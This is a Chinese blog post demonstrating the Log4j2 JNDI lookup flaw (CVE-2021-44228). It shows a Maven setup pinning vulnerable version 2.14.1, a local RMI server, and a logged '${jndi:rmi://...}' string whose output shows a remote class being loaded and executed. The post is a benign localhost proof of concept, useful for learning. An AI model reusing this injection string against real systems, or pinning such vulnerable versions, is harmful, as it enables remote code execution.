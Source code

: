 ```yaml
---
title: Log4j2漏洞Demo
date: 2021-12-14 19:03:48
tags:

 - tech
 - java
 - log4j

---
```


# 背景

近期Log4j2爆出了[很严重的漏洞](https://nvd.nist.gov/vuln/detail/CVE-2021-44228),具体信息也可以[参考这里](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot)



# 测试

构建一个最简单的Java应用,并引入Log4j2的依赖(2.15.0以前的版本都中招了)

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<groupId>name.chengchao</groupId>
	<artifactId>log4jtest</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<dependencies>
		<dependency>
			<groupId>org.apache.logging.log4j</groupId>
			<artifactId>log4j-api</artifactId>
			<version>2.14.1</version>
		</dependency>
		<dependency>
			<groupId>org.apache.logging.log4j</groupId>
			<artifactId>log4j-core</artifactId>
			<version>2.14.1</version>
		</dependency>
	</dependencies>
</project>
```

由于这次的漏洞主要是lookup功能引起的,这里演示一下jndi的rmi调用.

先构造一个RMI服务并注册到本机

```java
package log4jtest;
import java.io.Serializable;
import java.rmi.Remote;

public class TimeServer implements Remote, Serializable {
    private static final long serialVersionUID = 1L;
    static {
        System.out.println("!!!TimeServer static invoked!!!");
    }
}
```

```java
package log4jtest;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {

    public static void main(String[] args) throws Exception {
        TimeServer timeserver = new TimeServer();
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("time", timeserver);
        System.out.println("Timeserver registry");
        Thread.sleep(1000000);
    }

}
```

这样在本机就起了一个RMI的服务,监听端口是默认的1099

在业务代码里测试一下效果,非常简答

```java
package log4jtest;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {

    public static void main(String[] args) throws Exception {
        Logger logger = LogManager.getLogger();
        String name = "${jndi:rmi://127.0.0.1:1099/time}";
        logger.error("hello:{}", name);
        Thread.sleep(10000);
    }
}
```

1. 先启动RMIServer
2. 再执行`log4jtest.Log4jTest.main`
3. 就能看到TimeServer的代码被加载到本地,而且被执行了

```
!!!TimeServer static invoked!!!
10:22:56.343 [main] ERROR log4jtest.Log4jTest - hello:log4jtest.TimeServer@6bb4dd34
```



